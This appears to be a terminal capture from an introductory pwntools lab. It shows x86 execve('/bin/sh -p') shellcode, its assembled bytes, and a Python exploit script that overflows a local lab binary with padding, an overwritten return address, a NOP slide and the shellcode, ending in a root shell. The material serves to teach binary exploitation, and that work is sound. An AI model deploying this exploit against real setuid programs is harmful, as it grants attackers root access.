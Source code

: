 ```
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx, esp
    /* push argument array ['sh\x00', '-p\x00'] */
    /* push 'sh\x00-p\x00\x00' */
    push 0x70
    push 0x1010101
    xor dword ptr [esp], 0x2c016972
    xor ecx, ecx
    push ecx /* null terminate */
    push 7
    pop ecx
    add ecx, esp
    push ecx /* '-p\x00' */
    push 8
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
    mov ecx, esp
    xor edx, edx
    /* call execve() */
    push SYS_execve /* 0xb */
    pop eax
    int 0x80

raft i386.linux.execve "/bin///sh" "['sh', '-p']" -f s
"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/shellcraft$ nano shellcraft.py 
buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/shellcraft$ cat shellcraft.py 
from pwn import *

proc = process('./intro2pwnFinal')

proc.recvline()

padding = cyclic(cyclic_find('taaa'))

eip = p32(0xffffd510+200)

nop_slide = "\x90"*1000

shellcode = "jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

proc.send(payload)

proc.interactive()

buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/shellcraft$ python shellcraft.py 
[+] Starting local process './intro2pwnFinal': pid 3047
[*] Switching to interactive mode
$ ls
$ ls
attack         intro2pwnFinal      pattern        test_shellcraft.c
disable_aslr.sh  note_to_buzz_2.txt  shellcraft.py
$ whoami
root
$ cd /root
$ ls
```